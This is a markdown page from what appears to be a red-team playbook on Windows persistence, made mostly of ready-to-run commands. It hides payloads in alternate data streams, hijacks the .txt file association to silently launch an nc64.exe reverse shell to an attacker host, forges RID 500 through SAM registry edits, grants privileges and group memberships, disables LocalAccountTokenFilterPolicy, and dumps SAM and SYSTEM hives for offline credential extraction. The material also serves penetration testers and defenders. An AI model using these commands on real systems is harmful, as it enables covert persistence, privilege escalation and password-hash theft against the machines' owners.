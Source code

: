 # 5.1 Persistence

## Table of Contents

- [Alternate Data Stream Files (ADS)](https://github.com/0xsyr0/Red-Team-Playbooks/blob/master/5-Installation/5.1-Persistence.md#Alternate-Data-Stream-Files-ADS)
- [Hijack File Associations](https://github.com/0xsyr0/Red-Team-Playbooks/blob/master/5-Installation/5.1-Persistence.md#Hijacking-File-Associations)
- [Normal.dotm](https://github.com/0xsyr0/Red-Team-Playbooks/blob/master/5-Installation/5.1-Persistence.md#Normaldotm)
- [Relative ID (RID) Hijacking](https://github.com/0xsyr0/Red-Team-Playbooks/blob/master/5-Installation/5.1-Persistence.md#Relative-ID-RID-Hijacking)
- [Special Privileges and Security Descriptors](https://github.com/0xsyr0/Red-Team-Playbooks/blob/master/5-Installation/5.1-Persistence.md#Special-Privileges-and-Security-Descriptors)
- [User Group Manipulation](https://github.com/0xsyr0/Red-Team-Playbooks/blob/master/5-Installation/5.1-Persistence.md#User-Group-Manipulation)

## Alternate Data Stream Files (ADS)

```c
C:\> echo <PAYLOAD> > %USERPROFILE%\AppData:<FILE>
```

<p align="center">
  <img src="https://github.com/0xsyr0/Red-Team-Playbooks/blob/master/5-Installation/files/ads1.png">
</p>

### Listing ADS Files

```c
C:\> dir /r /a %USERPROFILE%\AppData\
```

### Deleting ADS Files

> https://live.sysinternals.com/

```c
C:\> .\streams64.exe -s C:\PATH\TO\FOLDER\
C:\> .\streams64.exe -d C:\PATH\TO\FOLDER\
```

<p align="center">
  <img src="https://github.com/0xsyr0/Red-Team-Playbooks/blob/master/5-Installation/files/ads2.png">
</p>

## Hijacking File Associations

Registry Path.

```c
HKEY_LOCAL_MACHINE\SOFTWARE\Classes\
```

Now search for the desired `file extention` and change the `Programmatic ID (ProgID)`.

```c
HKEY_LOCAL_MACHINE\SOFTWARE\Classes\txtfile\shell\open\command
```

Then build a `PowerShell Script` and place it anywhere on the target.

```c
Start-Process -NoNewWindow "C:\temp\nc64.exe" "-e cmd.exe <LHOST> <LPORT>"
C:\Windows\system32\NOTEPAD.EXE $args[0]
```

Next change the `Registry Key` to point to the script.

```c
powershell -windowstyle hidden C:\Windows\System32\<FILE>.ps1 %1
```

## Normal.dotm

Add a macro to the `Normal.dotm` which get's executed whenever `any` document is opened.

## Relative ID (RID) Hijacking

Get the current `RIDs`.

```c
PS C:\> wmic useraccount get name,sid
```

```c
Name                SID
Administrator       S-1-5-21-1966530601-3185510712-10604624-500
DefaultAccount      S-1-5-21-1966530601-3185510712-10604624-503
Guest               S-1-5-21-1966530601-3185510712-10604624-501
```

Edit the `registry` by using `PsExec64.exe` to add the `RID` of `500`, which is a `Local Administrator` to another user.

```c
PS C:\> PsExec64.exe -i -s regedit
```

Path in Registry.

```c
HKEY_LOCAL_MACHINE\SAM\SAM\Domains\Account\Users\
```

Under the corresponding key, there will be a vlaue called `F`, which holds the user's effective `RID`. Those are stored
by using `little-endian` notation, so the bytes appear `reversed`.

```c
500 = 0x01F4
```

Switched Bytes.

```c
F401
```

Save it and on the next login, the user should get `RID 500` assigned.

## Special Privileges and Security Descriptors

### Edit Special Privileges

Add `SeBackupPrivilege` and `SeRestore Privilege` to a user.

Export the configuration file.

```c
PS C:\> secedit /export /cfg config.inf
```

Edit the file and add the `username`.

```c
SeBackupPrivilege = *S-1-5-32-544,*S-1-5-32-551,<USERNAME>
SeRestorePrivilege = *S-1-5-32-544,*S-1-5-32-551,<USERNAME>
```

Convert the `.inf` file into a `.sdb` file and load the configuration back into the system.

```c
PS C:\> secedit /import /cfg config.inf /db config.sdb
PS C:\> secedit /configure /db config.sdb /cfg config.inf
```

### Enable WinRM Security Descriptor

Open the `permission window` and add a user, which should granted `Full Control` in order to `remote login`.

```c
PS C:\> Set-PSSessionConfiguration -Name Microsoft.PowerShell -showSecurityDescriptorUI
```

## User Group Manipulation

Add user to `Local Administrators` group.

```c
PS C:\> net localgroup administrators <USERNAME> /add
```

Add user to `Backup Operators` group.

```c
PS C:\> net localgroup "Backup Operators" <USERNAME> /add
```

Add user to `Remote Desktop Users` group.

```c
PS C:\> net localgroup "Remote Management Users" <USERNAME> /add
```

Disable `LocalAccountTokenFilterPolicy`.

```c
PS C:\> reg add HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\System /t REG_DWORD /v LocalAccountTokenFilterPolicy /d 1
```

Dumping `SAM` and `SYSTEM` files with `Backup Operator` privileges.

```c
PS C:\> reg save hklm\system system.bak
```

```c
PS C:\> reg save hklm\sam sam.bak
```

```c
$ impacket-secretsdump -sam sam.bak -system system.bak LOCAL
```

### Previous

- [5 Installation](https://github.com/0xsyr0/Red-Team-Playbooks/blob/master/5-Installation/5-Installation.md)

### Next

- [5.2 Situational Awareness](https://github.com/0xsyr0/Red-Team-Playbooks/blob/master/5-Installation/5.2-Situational-Awareness.md)
